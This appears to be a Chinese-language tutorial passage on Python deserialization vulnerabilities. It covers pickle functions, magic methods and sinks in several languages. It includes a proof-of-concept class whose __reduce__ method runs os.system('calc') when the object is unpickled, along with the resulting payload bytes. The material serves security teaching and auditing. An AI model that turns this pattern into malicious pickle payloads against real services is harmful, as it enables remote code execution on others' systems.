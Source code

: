 ![1647930974822-5da8c5f6-0e81-4799-a3c9-01e9307d521b.png](http://www.mumuxi8.com/zb_users/upload/2022/04/202204171650208553248952.png)

```plain
#知识点：
1、Python-反序列化函数使用
2、Python-反序列化魔术方法
3、Python-反序列化POP链构造
4、Python-自动化审计bandit使用

#前置知识：
函数使用：
1.文件格式：
pickle.dump(obj, file) : 将对象序列化后保存到文件
pickle.load(file) : 读取文件， 将文件中的序列化内容反序列化为对象
2.字节流：
pickle.dumps(obj) : 将对象序列化成字符串格式的字节流
pickle.loads(bytes_obj) : 将字符串格式的字节流反序列化为对象

魔术方法：
__reduce__()      反序列化时调用
__reduce_ex__()   反序列化时调用
__setstate__()    反序列化时调用
__getstate__()    序列化时调用


各类语言函数：
Java： Serializable Externalizable接口、fastjson、jackson、gson、ObjectInputStream.read、ObjectObjectInputStream.readUnshared、XMLDecoder.read、ObjectYaml.loadXStream.fromXML、ObjectMapper.readValue、JSON.parseObject等
PHP： serialize()、 unserialize() 
Python：pickle marshal PyYAML shelve PIL unzip
```

- 原理-反序列化魔术方法-调用理解

------

```plain
-魔术方法利用：
__reduce__()         反序列化时调用
__reduce_ex__()   反序列化时调用
__setstate__()       反序列化时调用
__getstate__()       序列化时调用
```

\#反序列化魔术方法调用-__reduce__() __reduce_ex__() __setstate__()

```plain
代码块：
class A(object):
    def __reduce__(self):
        print('反序列化调用')
        return (os.system,('calc',))
a = A()
p_a = pickle.dumps(a) //序列化操作
pickle.loads(p_a)     //反序列化操作
print('==========')
print(p_a)

运行后弹出计算机，输出：
反序列化调用
==========
b'\x80\x04\x95\x1c\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x94\x8c\x06system\x94\x93\x94\x8c\x04calc\x94\x85\x94R\x94.'

当我们把pickle.loads(p_a)注释时候，只会输出内容，不会弹出计算器
```